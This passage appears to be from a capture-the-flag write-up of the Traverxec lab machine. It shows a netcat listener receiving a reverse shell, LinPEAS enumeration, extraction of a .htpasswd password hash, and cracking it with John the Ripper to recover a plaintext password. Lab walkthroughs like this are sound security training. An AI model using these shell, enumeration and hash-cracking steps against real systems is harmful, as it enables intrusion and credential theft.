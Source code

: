 We then get a reverse sehll on the box:

```bash
┌─[rin@parrot]─[~]
└──╼ $nc -lvnp 6001
listening on [any] 6001 ...
connect to [10.10.14.117] from (UNKNOWN) [10.129.1.193] 51660
bash: cannot set terminal process group (640): 
    Inappropriate ioctl for device
bash: no job control in this shell
www-data@traverxec:/usr/bin$ whoami
whoami
www-data
```

Now that we are on the box, we can run LinPEAS by getting it using our local Python web server. The machine is running Debian Buster and there are two users with login, root and david. The key thing LinPEAS finds is a password hash that is stored in a .htpasswd file:

```bash
[i] 
https://book.hacktricks.xyz/linux-unix/privilege-escalation#read-sensitive-data

-rw-r--r-- 1 root root 1994 Apr 18 2019 /etc/bash.bashrc
-rw-r--r-- 1 root root 3526 Apr 18 2019 /etc/skel/.bashrc
-rw-r--r-- 1 root root 807 Apr 18 2019 /etc/skel/.profile
-rw-r--r-- 1 root root 570 Jan 31 2010 /usr/share/base-files
    /dot.bashrc
-rw-r--r-- 1 root root 2778 Jun 26 2016 /usr/share/doc/
    adduser/examples/adduser.local.conf.examples/bash.bashrc
-rw-r--r-- 1 root root 802 Jun 26 2016 /usr/share/doc/
    adduser/examples/adduser.local.conf.examples/skel/
    dot.bashrc
-rw-r--r-- 1 root bin 41 Oct 25 2019 /var/nostromo/conf/
    .htpasswd
Reading /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

We can try and crack the hash with John The Ripper. John detects that the hash is md5crypt and cracks the password as Nowonly4me:

```bash
┌─[rin@parrot]─[~/boxes/Traverexec]
└──╼ $john --wordlist=/usr/share/wordlists/rockyou.txt \
    hash.txt
Warning: detected hash type "md5crypt", but the string 
    is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force 
    loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ 
    (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key 
    for status
Nowonly4me (?)
<SNIP>
```
